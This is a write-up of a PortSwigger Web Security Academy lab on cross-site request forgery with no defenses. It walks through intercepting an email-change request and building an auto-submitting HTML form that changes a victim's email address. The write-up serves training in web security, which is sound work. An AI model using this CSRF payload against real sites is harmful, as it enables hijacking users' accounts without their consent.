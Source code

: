# Lab Writeup: CSRF vulnerability with no defenses

URL: https://portswigger.net/web-security/learning-paths/csrf/csrf-how-to-construct-a-csrf-attack/csrf/lab-no-defenses

## Description

This lab's email change functionality is vulnerable to CSRF.

To solve the lab, craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server.

You can log in to your own account using the following credentials: `wiener:peter`

## Solution

1.  Login using `wiener:peter`
2.  Try changing the email address then intercept using burp:

    ![csrf-no-defense](/assets/csrf-no-defense.png)

    From the above intercepted request, we know that the `POST` request is to the path `/my-account/change-email` with data `email=<user_input>`

3.  Go to exploit server then create the CSRF payload, here's the payload:

    ```html
    <!DOCTYPE html>
    <html>
      <body>
        <form
          action="https://0aad00f40374833381b1201400a20071.web-security-academy.net/my-account/change-email"
          method="POST"
        >
          <!-- the only input value -->
          <input type="text" name="email" value="hacker@gmail.com" />
        </form>
        <script type="text/javascript">
          // automatically upload form on open
          document.forms[0].submit();
        </script>
      </body>
    </html>
    ```

4.  Store, deliver exploit to victim, then the lab should be solved:

    ![csrf-no-defense-1](/assets/csrf-no-defense-1.png)
